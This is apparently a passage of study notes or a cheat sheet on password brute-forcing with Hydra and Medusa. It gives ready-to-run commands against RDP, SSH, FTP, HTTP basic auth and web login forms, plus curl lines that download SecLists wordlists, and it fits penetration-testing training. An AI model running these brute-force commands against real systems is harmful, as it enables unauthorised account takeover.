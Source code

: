 | rdp           | Remote Desktop Protocol (RDP)    | Targets Microsoft RDP services for remote login brute-forcing.                                          | `hydra -l admin -P /path/to/password_list.txt rdp://192.168.1.100`                                             |

**HTTP Authentication Brute-force :** `hydra -L usernames.txt -P passwords.txt www.example.com http-get`
**Targeting Multiple SSH Servers :** `hydra -l root -p toor -M targets.txt ssh`
 - In `targets.txt`, all IP Addresses for target are mentioned.
**Testing FTP Credentials on Non-standard Port :** `hydra -L usernames.txt -P passwords.txt -s 2121 -V ftp.example.com ftp`
**Brute-forcing Web Login Form :** `hydra -l admin -P passwords.txt www.example.com http-post-form "/login:user=^USER^&pass=^PASS^:S=302"`
**Advanced RDP Brute-forcing :** `hydra -l administrator -x 6:8:abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789 192.168.1.100 rdp`

## Basic HTTP Authentication
`curl -s -O https://raw.githubusercontent.com/danielmiessler/SecLists/refs/heads/master/Passwords/Common-Credentials/2023-200_most_used_passwords.txt` : To download the wordlist

To use Hydra for the Authentication : `hydra -l basic-auth-user -P 2023-200_most_used_passwords.txt <ip-address> http-get / -s <port_number>`

## Login Forms
`hydra [options] target http-post-form "path:params:condition_string"` : This is the template of the command.
`hydra ... http-post-form "/login:user=^USER^&pass=^PASS^:S=302"` : This is the example of the string and it tell us the success condition (`S=...`)

Param-String : `/:username=^USER^&password=^PASS^:F=Invalid credentials`
1. `curl -s -O https://raw.githubusercontent.com/danielmiessler/SecLists/master/Usernames/top-usernames-shortlist.txt`
2. `curl -s -O https://raw.githubusercontent.com/danielmiessler/SecLists/refs/heads/master/Passwords/Common-Credentials/2023-200_most_used_passwords.txt`
3. `hydra -L top-usernames-shortlist.txt -P 2023-200_most_used_passwords.txt -f IP -s 5000 http-post-form "/:username=^USER^&password=^PASS^:F=Invalid credentials"`


> To download the above given password lists : `curl -s -O https://raw.githubusercontent.com/danielmiessler/SecLists/master/Usernames/top-usernames-shortlist.txt` | `curl -s -O https://raw.githubusercontent.com/danielmiessler/SecLists/refs/heads/master/Passwords/Common-Credentials/2023-200_most_used_passwords.txt`


## Medusa
To open the help documentation : `medusa -h`
To install the tool : `sudo apt-get -y install medusa`
Command syntax to be used : `medusa [target_options] [credential_options] -M module [module_options]`

|Parameter|Explanation|Usage Example|
|---|---|---|
|`-h HOST` or `-H FILE`|Target options: Specify either a single target hostname or IP address (`-h`) or a file containing a list of targets (`-H`).|`medusa -h 192.168.1.10 ...` or `medusa -H targets.txt ...`|
|`-u USERNAME` or `-U FILE`|Username options: Provide either a single username (`-u`) or a file containing a list of usernames (`-U`).|`medusa -u admin ...` or `medusa -U usernames.txt ...`|
|`-p PASSWORD` or `-P FILE`|Password options: Specify either a single password (`-p`) or a file containing a list of passwords (`-P`).|`medusa -p password123 ...` or `medusa -P passwords.txt ...`|
|`-M MODULE`|Module: Define the specific module to use for the attack (e.g., `ssh`, `ftp`, `http`).|`medusa -M ssh ...`|
|`-m "MODULE_OPTION"`|Module options: Provide additional parameters required by the chosen module, enclosed in quotes.|`medusa -M http -m "POST /login.php HTTP/1.1\r\nContent-Length: 30\r\nContent-Type: application/x-www-form-urlencoded\r\n\r\nusername=^USER^&password=^PASS^" ...`|
|`-t TASKS`|Tasks: Define the number of parallel login attempts to run, potentially speeding up the attack.|`medusa -t 4 ...`|
|`-f` or `-F`|Fast mode: Stop the attack after the first successful login is found, either on the current host (`-f`) or any host (`-F`).|`medusa -f ...` or `medusa -F ...`|
|`-n PORT`|Port: Specify a non-default port for the target service.|`medusa -n 2222 ...`|
|`-v LEVEL`|Verbose output: Display detailed information about the attack's progress. The higher the `LEVEL` (up to 6), the more verbose the output.|`medusa -v 4 ...`|
